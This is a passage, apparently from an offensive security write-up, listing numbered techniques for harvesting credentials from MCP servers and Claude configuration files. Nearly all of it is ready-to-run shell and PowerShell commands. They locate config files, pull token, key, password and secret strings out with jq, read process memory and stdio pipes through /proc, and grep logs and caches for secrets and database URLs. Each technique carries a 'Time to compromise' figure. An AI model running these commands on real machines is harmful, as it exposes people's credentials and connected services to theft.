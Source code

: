 **Time to compromise: 1 second**

### Technique 3: Configuration File Pillaging

```bash
# MCP servers store configs in predictable locations
find ~ -name "*mcp*" -o -name "*claude*" -o -name "config.json" 2>/dev/null

# Common locations:
~/.config/claude/config.json
~/.config/mcp/servers.json
~/.mcp/credentials.json
~/AppData/Roaming/Claude/config.json (Windows)

# Extract all credentials
cat ~/.config/*/config.json | jq -r '.. | select(type == "string") | select(test("token|key|password|secret"; "i"))'
```

**Time to compromise: 2 seconds**

### Technique 4: Memory Scanning Without Privileges

```bash
# On Linux - read your own process memory via /proc
cat /proc/$(pgrep mcp)/maps | grep heap
cat /proc/$(pgrep mcp)/mem 2>/dev/null | strings | grep -E "(password|token|key|secret)"

# On Windows - using PowerShell
Get-Process *mcp* | ForEach-Object {
    $_.Modules | Select-String -Pattern "token|password|key|secret"
}
```

### Technique 5: File Descriptor Snooping

```bash
# See what files/pipes MCP servers have open
ls -la /proc/$(pgrep mcp)/fd/

# Read from their STDIO pipes
tail -f /proc/$(pgrep mcp)/fd/1  # stdout
tail -f /proc/$(pgrep mcp)/fd/2  # stderr
```

### Technique 6: Log File Mining

```bash
# MCP servers often log sensitive data
grep -r "password\|token\|key\|secret" ~/.local/share/ 2>/dev/null
grep -r "postgresql://" ~/.cache/ 2>/dev/null

# Common log locations:
~/.local/share/claude/logs/
~/.cache/mcp/
/tmp/mcp-*.log
~/AppData/Local/Claude/logs/ (Windows)
```
